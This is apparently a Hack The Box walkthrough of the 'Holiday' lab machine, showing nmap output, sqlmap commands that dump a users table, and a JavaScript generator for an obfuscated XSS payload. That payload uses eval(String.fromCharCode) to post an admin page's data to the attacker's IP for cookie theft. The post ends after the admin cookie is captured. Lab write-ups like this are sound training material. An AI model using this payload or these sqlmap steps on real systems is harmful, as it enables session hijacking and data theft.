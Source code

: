 # Holiday -- hack the box

## Introduction

Target: 10.10.10.25(Linux)

Kali: 10.10.16.65

Holiday is a insane box officially. It's really difficult to get the user permission. The most difficult part should be how to pass xss filter. It may need a lot of time. And the root privesc is based on the exploitation of npm install which is relatively fresh.

## Information enumeration

As usual, use nmap to detect open ports and related services: `nmap -A 10.10.10.25`:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-19 09:49 GMT
Nmap scan report for htb.holiday (10.10.10.25)
Host is up (0.67s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c3:aa:3d:bd:0e:01:46:c9:6b:46:73:f3:d1:ba:ce:f2 (RSA)
|   256 b5:67:f5:eb:8d:11:e9:0f:dd:f4:52:25:9f:b1:2f:23 (ECDSA)
|_  256 79:e9:78:96:c5:a8:f4:02:83:90:58:3f:e5:8d:fa:98 (ED25519)
8000/tcp open  http    Node.js Express framework
|_http-title: Error
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.70%E=4%D=5/19%OT=22%CT=1%CU=38324%PV=Y%DS=2%DC=T%G=Y%TM=5CE126E
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54BST11NW7%O5=M54BST1
OS:1NW7%O6=M54BST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT       ADDRESS
1   630.30 ms 10.10.16.1
2   322.47 ms htb.holiday (10.10.10.25)
```

There are only two ports open. The port 8000 is a HTTP service which is hosted by Express. It should be our breakthrough.

## Exploitaion

Access to `http://10.10.10.25:8000`, there is nothing except a image. Download the image, and try to see more information about the image with exiftoo. Nothing interesting found.

[![EjY0mV.png](https://s2.ax1x.com/2019/05/19/EjY0mV.png)](https://imgchr.com/i/EjY0mV)

Then try to brute force the direcory. Gobuster and dirbuster seem not to be very useful for this box. If you try dirb, you will soon find some important directories, including: admin, login. Try to access `http://10.10.10.25:8000/login`. It is a login web page. Try to login with some default credentials. Not work. Then use burp to save the login request to a file.

```
POST /login HTTP/1.1
Host: 10.10.10.25:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.25:8000/login
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```

### Sqlmap

Try to use sqlmap to brute force the login request. Due to the awful network or something, sqlmap is slow for me to use for the boxed in hack the box. So try to prefer get some important inpotant information instead of dump all information in sqlmap. For example, obtain tables firstly. Then dig into the interesting table.

```
sqlmap -r sql.req --level=5 --risk=3 --tables --threads=5
```

[![Ejdcss.md.png](https://s2.ax1x.com/2019/05/19/Ejdcss.md.png)](https://imgchr.com/i/Ejdcss)

By sqlmap, it seems that the database is SQLite and there are 5 tables. The `users` table is interesting. There may are some valid user and password. 

```
sqlmap -r sql.req --level=5 --risk=4 -T users --threads=10
```

![Ej4acR.png](https://s2.ax1x.com/2019/05/19/Ej4acR.png)

A user is found. [Hashkiller](https://hashkiller.co.uk/Cracker) is a wonderful hash crack online tool. The hash can be cracked easily.

![Ej464e.png](https://s2.ax1x.com/2019/05/19/Ej464e.png)

Login with this user. It seems to be a booking website.

![Ej4Lgs.png](https://s2.ax1x.com/2019/05/19/Ej4Lgs.png)

Click any booking and see the booking details. It consits of two tabs, including View and Notes. In the Notes, one word is interesting: "All notes must be approved by an administrator - this process can take up to 1 minute." Administrator is always attractive to hackers. It seems that the note will be approved by administrator. So it's possible to steal the session cokie of administrator if there is a xss vulnerability in the note edit form. I think it's the hardest part of this box. It's not easy to find the approprivate pass way. There is a way to utilize `fromCharCode` and other skills to pass the xss filter. The following javascript code is utilized to generate the payload:

```javascript
var url = 'http://localhost:8000/vac/8dd841ff-3f44-4f2b-9324-9a833e2c6b65';
var str = `$.ajax({method:'GET',url:'${url}',success:function(data){$.post('http://10.10.16.65',data)}})`;
console.log(str);
result = "";
for (var i = 0; i < str.length; i++) {
  result += str.charCodeAt(i) + ',';
}
result = result.substr(0, result.length - 1);
console.log(result);
var payload = `<img src="x/><script>eval(String.fromCharCode(${result}));</script>">`;
console.log(payload);
```

Set kali listen to port 80: `nc -lvnp 80`. The code can be run in the chrome dev. Input the generated payload into the note, wait a minute the data will be sent to kali. 

![Ej5nUO.png](https://s2.ax1x.com/2019/05/19/Ej5nUO.png)

admin cookie

![Ej4oE8.png](https://s2.ax1x.com/2019/05/19/Ej4oE8.png)


https://www.ipaddressguide.com/ip

